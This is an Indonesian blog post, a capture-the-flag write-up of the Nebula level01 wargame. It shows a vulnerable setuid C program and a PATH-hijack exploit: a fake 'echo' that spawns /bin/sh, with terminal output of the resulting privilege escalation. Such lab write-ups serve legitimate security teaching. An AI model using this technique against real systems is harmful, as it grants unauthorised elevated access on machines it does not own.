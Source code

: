 +++
author = "kernel-panic"
categories = ["Security", "Nebula"]
date = "2018-01-09T03:49:14+00:00"
description = "Security Wargames"
featured = "g56704342622.jpg"
featuredalt = "Nebula Level01"
featuredpath = "https://beeimg.com/images"
linktitle = ""
title = "Exploit Exercises - Nebula Level01"
type = "post"

+++
Tingkat berikutnya, {{< url-link "level01" "https://exploit-exercises.com/nebula/level01/" "target">}}, memberikan kode bahasa C untuk dievaluasi pengguna. Kode tersebut berisi kerentanan yang memungkinkan pengeksekusian program _arbitrary_.

Dalam postingan ini saya akan menjelaskan langkah-langkah yang saya ambil untuk menyelesaikan tantangan tersebut.

Saya memulai dengan melihat _source code_ untuk menemukan kerentanannya:

    #include <stdlib.h>
    #include <unistd.h>
    #include <string.h>
    #include <sys/types.h>
    #include <stdio.h>
    
    int main(int argc, char **argv, char **envp)
    {
      gid_t gid;
      uid_t uid;
      gid = getegid();
      uid = geteuid();
    
      setresgid(gid, gid, gid);
      setresuid(uid, uid, uid);
    
      system("/usr/bin/env echo and now what?");
    }

Hampir seketika, saya melihat bahwa "echo" dipanggil tanpa path absolut. Ini adalah kerentanan keamanan utama karena script akan bergantung pada variabel lingkungan shell saat ini (yang dapat dirusak).

Mari kita modifikasi path untuk memasukkan /tmp/:

    level01@nebula:/home/flag01$ PATH=/tmp:$PATH
    level01@nebula:/home/flag01$ export PATH
    level01@nebula:/home/flag01$ echo $PATH
    /tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games

Sekarang /tmp ada di path saat ini, kita bisa membuat "echo" perintah kita sendiri. Saya telah memasukkan kode C di bawah ini untuk (dalam istilah kerennya) _spawn a shell_.

    #include <unistd.h>
    
    int main() {
            char *args[2];
            args[0] = "/bin/sh";
            args[1] = NULL;
            execve(args[0], args, NULL);
    }

Write-up bagus tentang kode tersebut dapat ditemukan di {{< url-link "http://www.kernel-panic.it/security/shellcode/shellcode5.html" "http://www.kernel-panic.it/security/shellcode/shellcode5.html" "target">}} jika kamu penasaran dengan pembuatan dan eksekusinya.

Setelah membuat program "echo" baru, saya perlu mengkompilasi kode tersebut.

    level01@nebula:/tmp$ gcc echo.c -o echo
    level01@nebula:/tmp$ ls
    echo echo.c

Sekarang saya bisa memanggil script asli, yang sekarang akan menjalankan program "echo" yang sudah dibuat tadi:

    level01@nebula:/home/flag01$ id
    uid=1002(level01) gid=1002(level01) groups=1002(level01)
    level01@nebula:/home/flag01$ ./flag01
    sh-4.2$ id
    uid=998(flag01) gid=1002(level01) groups=998(flag01),1002(level01)
    sh-4.2$ getflag
    You have successfully executed getflag on a target account

Dan yaps, sukses!

<div class="videoyoutube"><div class="video-responsive"><iframe allowfullscreen="1" class="embedded-video-large" src="https://www.youtube.com/embed/gkqc1By1oaA?rel=0"></iframe></div></div>
